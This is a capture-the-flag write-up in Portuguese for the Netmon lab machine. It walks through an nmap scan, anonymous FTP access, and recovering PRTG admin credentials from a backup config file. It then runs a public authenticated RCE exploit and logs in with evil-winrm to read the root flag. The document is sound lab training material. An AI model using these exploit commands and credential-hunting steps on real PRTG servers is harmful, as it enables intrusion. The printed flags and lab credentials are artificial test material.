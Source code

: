 # Netmon WriteUp

## Scan and Enumeration

```textile
# Nmap 7.92 scan initiated Wed Dec 29 16:41:39 2021 as: nmap -A -Pn -p 21,80,135,139,445,5985,47001 -T5 -oN scan.txt 10.129.167.101
Nmap scan report for 10.129.167.101
Host is up (0.16s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 12-29-21  04:12PM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 build 10586 - 14393 (96%), Microsoft Windows Server 2016 (95%), Microsoft Windows 10 1507 (93%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows 10 1511 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2012 R2 Update 1 (93%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (93%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2021-12-29T21:41:59
|_  start_date: 2021-12-29T19:59:15

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   157.08 ms 10.10.14.1
2   157.13 ms 10.129.167.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 16:42:05 2021 -- 1 IP address (1 host up) scanned in 26.55 seconds
```

## Exploitation

Após ter feito a enumeração, podemos ver que o servidor possui o usuário `anonymous` habilitado no ftp. Podemos logar com o usuário anonymous e pegar a user flag que está localizado em `/Users/Public` .

Para isso, apenas precisamos entrar na pasta e usar o comando `mget` do ftp para baixar o aqruivo `user.txt` para nossa máquina.

* User Flag:

```
└─$ cat user.txt 
974f9047bc0a33bd547405fb10996218
```

Após ter pego a user flag, podemos enumerar o host para ver se conseguimos algo de interessante.

O host possui um `PRTG Network Monitor` na versão `18.1.37` rodando na porta 80. Ao pesquisar sobre vulnerabilidades nessa versão, conseguimos achar um RCE authenticated com exploit público, porém para conseguirmos exploitar o alvo, precisamos de credenciais de acesso.

Ao procurar as credenciais default e testá-las, não obtivemos sucesso. O que nos sobra é revirar os arquivos do ftp, para podermos encontrar algo.

Após um tempo enumerando, podemos ver que o arquivo `PRTG Configuration.old.bak` possui credenciais, porém incorretas. Se usarmos guessing e ir trocando os anos da senha, chegamos nas credenciais válidas `prtgadmin:PrTg@dmin2019` .

* Maneira fácil de encontrar essas credenciais:
1. Baixar a pasta **Users** para seu pc com o comando: wget -r `ftp://anonymous:anonymous@10.129.167.101/Users`.

2. Após baixar, acessar a pasta `10.129.167.101/Users/All Users/Paessler/PRTG Network Monitor` 

3. Usar o comando `cat PRTG\ Configuration.old.bak | grep -i user: -B2 -A2` para encontrar as credenciais antigas.

Foi usado o seguinte arquivo para entender onde são armezados credenciais do prtg: [How and where does PRTG store its data? | Paessler Knowledge Base](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

## Privilege escalation

Tendo pego as credenciais corretas, podemos usar o comando `searchsploit prtg` para procurar por um exploit no prtg.

Após feito a pesquisa, podemos ver um exploit em sh que podemos baixar com `searchsploit -m 46527` .

Tendo o exploit em mãos, podemos executá-lo da maneira que é pedido e veremos que um usuário com privilégios administrativos será criado.

**Comando exploit:** `./46527.sh -u http://10.129.167.101 -c "_ga=GA1.4.1968055743.1640808238; _gid=GA1.4.717060946.1640808238; OCTOPUS1813713946=e0RFNjM5Q0Y0LTA3N0EtNEE3RS05OEUxLTc1NkM2NTQzM0EyNH0%3D"`

OBS: Os parâmetros de "-c" são os valores dos cookies de sessão que são pegos quando estamos logados com o usuário na aplicação.

Ao executar o exploit as seguintes credenciais nos são fornecidas `pentest:P3nT3st!` .

Tendo as credenciais administrativas, podemos logar no host usando o evil-winrm ou psexec.

**Comando login:** `evil-winrm -i 10.129.167.101 -u pentest -p 'P3nT3st!'`



* Root Flag:

```powershell
*Evil-WinRM* PS C:\Users\pentest\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
f77acf2aa48110fce560c6c16cc8c2d5
```
